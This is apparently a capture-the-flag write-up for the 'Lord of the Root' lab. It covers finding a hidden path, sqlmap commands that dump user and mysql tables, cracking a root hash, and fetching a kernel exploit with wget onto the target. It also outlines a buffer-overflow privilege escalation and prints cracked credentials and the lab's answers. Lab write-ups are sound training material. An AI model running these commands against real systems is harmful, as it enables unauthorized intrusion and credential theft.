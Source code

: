 # LORD OF THE ROOT

## BASIC INFO
```
export IP=10.10.52.33

open port:
	22 OpenSSH 6.6.1p1
	1337 http
```

## CAN YOU ROOT THE BOX

> - **Hmmm, what method is used to reveal hidden ports?**
>> Port Knocking

> - **What port is the hidden service on?**
>> 1337

Navigating on the page (port 1337), found base64 string on any 404 page.\
`THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh`\
After decoding it becomes `Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!`\
Finally `/978345210/index.php`\
Have a look into it, and found that it was a login page.

Using sqlmap on the index.php we got above.\
`sqlmap -o -u http://$IP:1337/978345210/index.php --forms --dbs` found that password is injectable.\
With `sqlmap -o -u http://$IP:1337/978345210/index.php --forms -D Webapp -T User --dump` we got a list of username and password. Only frodo was able to be used to ssh into the machine. 
```
username:	frodo
password:	iwilltakethring
```

Let's try the other database, mysql database and only getting the User and Password column.\
`sqlmap -o -u http://$IP:1337/978345210/index.php --forms -D mysql -T user -C User,Password --dump`\
Now we got the user root with it's password hash.\
Crack the hash with john.\
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

root: darkshadow
```

Now we ssh into the machine. From the nmap scan before we know that the kernel might be running on Ubuntu. Simple searchsploit and we found tons of exploit. We are targetting on the local one since we have access. After some tries we found that `39166.c` is working.

We first set up a http server with `python3 -m http.server` on our host machine, then on the remote machine we use `wget http://10.8.8.177:8000/39166.c` to download the file. Compile it with gcc an run. Now we are root.

Another exploit would be the lucky door. While enumerating the machine with `find / -perm +4000` found a few file that has the setuid bit set.
```
/SECRET/door1/file
/SECRET/door2/file
/SECRET/door3/file
```

Running them show that we need to provide a string to it. Assume it is buffer overflow. Note that the file that is vulnerable to overflow always changing. We can compare the file size and make a copy of the one with different size. Next we generate a payload with metasploit's pattern_create.rb with length of 200 and input it to the file. Inspecting on the dmesg shows the position where the seg fault occurs and using pattern_offset.rb we know that the offset is 171. Also we found that the ASLR is enabled on the binary. Research on how to bypass ASLR. Brute force it sounds like the easiest. We first find out the address that the binary jump to after we overwrite the EIP. So we are looking for tha address in ESP. Then we create a long list of NOP to work like a sled so if we hit any address in it it will be redirected to our shellcode. It is shown in the [bof.py](bof.py). Now run it and we are eventually root. *Note: If sometimes it succeeded but we are not root it may be the vulnerable binary has changed place. Just re-run it with the correct binary*

> - **Whats the method to exploit the system for privilege escalation called?**
>> Buffer overflow

> - **Who wrote the message in the flag message in the roots home directory?**
>> Gandalf